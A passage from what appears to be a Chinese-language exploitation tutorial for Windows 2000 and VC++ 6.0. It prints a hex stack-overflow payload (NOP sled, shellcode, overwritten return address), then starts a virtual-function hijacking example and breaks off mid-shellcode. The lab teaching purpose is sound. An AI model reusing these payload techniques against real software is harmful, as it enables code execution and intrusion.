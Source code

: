 如下组织212 byte的payload, 最后213~216 byte覆盖为shellcode起始地址0x0012FE98
```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x98\xfe\x12\x00";
```

pwn~
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x005-005.png)


## 0x006 攻击C++的虚函数

>系统: Windows 2000 Professional sp4  
>编译器: Visual C++ 6.0  
>调试器: OllyDbg 1.10  

VC 6.0新建一个工程, 贴入以下代码, 选择release版本
```
#include <windows.h>
#include <iostream>
using namespace std;

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
```